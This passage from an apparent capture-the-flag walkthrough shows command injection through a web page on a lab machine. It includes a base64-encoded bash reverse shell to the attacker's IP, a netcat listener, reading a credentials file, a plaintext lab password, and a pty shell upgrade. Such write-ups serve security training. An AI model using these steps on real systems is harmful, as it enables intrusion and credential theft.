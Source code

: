 So we encoded this command using the same website. So now we will try the below-written command in /wish page. Don’t forget to start the listener using the command shown below.

```
echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQzLjI0OS84MDgwIDA+JjE=
```

![](https://i0.wp.com/1.bp.blogspot.com/-B1SaXj0TfrQ/Xd6JCsedj7I/AAAAAAAAhpQ/VJD9RKhJzyMHbfBh-N8TNltM7fCeagq5ACLcBGAsYHQ/s1600/16.png?w=687&ssl=1)

We got the shell using this technique. We ran the command whoami to find the user of which we just got the shell. It came out to be www-data.

```
nc -nlvp 8080  
whoami
```

![](https://i0.wp.com/1.bp.blogspot.com/-GbUPt56d4B0/Xd6JCtwuDGI/AAAAAAAAhpM/kyAWAmrxX6wLs0zzJkK4NM2DA-0xGrQEQCLcBGAsYHQ/s1600/17.png?w=687&ssl=1)

We decided to look around the machine. We found a directory named 80 in the opt directory. We opened it. Here we find some files. We took at the app.py file. We found the path to a file named creds.txt. Let’s change the directory to the given directory and try to read the credentials.

```
ls  
cat app.py
```

![](https://i0.wp.com/1.bp.blogspot.com/-aVDSrAH8_ag/Xd6JDXL6coI/AAAAAAAAhpU/g4o6lvyT6CszCeK_t9DGWcZfY3AzSf8owCLcBGAsYHQ/s1600/18.png?w=687&ssl=1)

We navigated to the path mentioned in that file. We found the credential for the user nitish.

```
cd /home  
cd nitish/.dev/  
cat creds.txt
```

![](https://i0.wp.com/1.bp.blogspot.com/-msl22oXonyU/Xd6JDkZYQeI/AAAAAAAAhpY/gJn-feErW7g9Iu0_O_rpjj7tUyx_yDREQCLcBGAsYHQ/s1600/19.png?w=687&ssl=1)

We decided to login in as nitish. To do this we used the bash command. This invoked a bash shell, we converted that shell into a TTY shell using the python one-liner.

```
bash  
python -c 'import pty;pty.spawn("/bin/sh")'
```

![](https://i0.wp.com/1.bp.blogspot.com/-rZFS92g5ZkI/Xd6JET7c-TI/AAAAAAAAhpg/4_tMKeLt9MsKX0CNnV5PawtbCNQ5jcgCACLcBGAsYHQ/s1600/20.png?w=687&ssl=1)

We changed the user with the help of the su command. After entering the password that we found earlier we successfully logged in as nitish.

```
su nitish  
p4ssw0rdStr3t0n9  
whoami
```
